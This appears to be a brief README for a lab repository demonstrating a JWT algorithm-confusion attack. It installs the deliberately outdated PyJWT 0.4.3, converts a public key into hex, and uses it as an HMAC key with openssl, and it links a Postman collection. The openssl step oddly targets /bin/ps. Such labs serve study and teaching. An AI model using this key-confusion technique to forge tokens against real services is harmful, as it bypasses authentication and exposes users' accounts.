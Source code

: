 # JWT_confusion_attack

pip install pyjwt==0.4.3
pip install flask flask-restful
pip install flask_sqlalchemy
pip install cryptography

cat pubkey.pem | xxd -p | tr -d "\\n" > myhmac.txt

openssl dgst -sha256 -hmac -hex -macopt hexkey:\$(cat myhmac.txt) -out hmac.txt /bin/ps

https://www.getpostman.com/collections/4c9cf3a2d70263317bd6
https://pypi.org/project/PyJWT/0.4.3/

